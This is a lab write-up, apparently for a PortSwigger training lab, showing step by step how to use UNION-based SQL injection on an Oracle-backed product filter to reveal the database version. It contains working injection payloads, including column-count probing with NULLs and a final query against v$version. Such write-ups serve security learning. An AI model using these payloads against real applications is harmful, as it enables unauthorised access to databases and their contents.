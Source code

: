 # 🧠 Lab Title: SQL injection attack, querying the database type and version on Oracle

## 🔍 Category
SQLI

## 🎯 Objective
> Display the database version string.

## 🧰 Tools Used
- Notepad

## 🚀 Exploitation Steps
#### Observe the description
> Before diving into the lab, we’re told it's using an Oracle database, which has a special dummy table called `dual`. so the statment looks like this 
```sql 
UNION SELECT 'abc' FROM dual
``` 
and the vulnerability is in the product category filter, we should do UNION based attack.

#### Access the lab
> Click on `ACCESS THE LAB`

#### START HACKING!!!
1) Imagine the query  
```sql
SELECT * FROM products WHERE category = '';
```
2) Enter '
3) We get a 500 error – this is a good sign, as it suggests our input broke the query, indicating SQL injection 
4) from [portswigger's cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) we know that to retrive the database version we do 
```sql
SELECT banner FROM 
```
but first we need to define the numbers of coulmns of the database so we do
```sql
' UNION SELECT NULL FROM dual -- 
```
we still get 500 , which means our statment is wrong , so we will put another NULL 

```sql
' UNION SELECT NULL ,NULL FROM dual -- 
```
we got a 200 (HTTP STATUS CODE)!!!

so now lets build our payload

```sql
' UNION SELECT BANNER , NULL FROM v$version --
```
### 4. Proof of Success
- We can see the database version
## 🧵 Reflection
> What is the table that Oracle has as a dummy?
> How to perform UNION based attack?
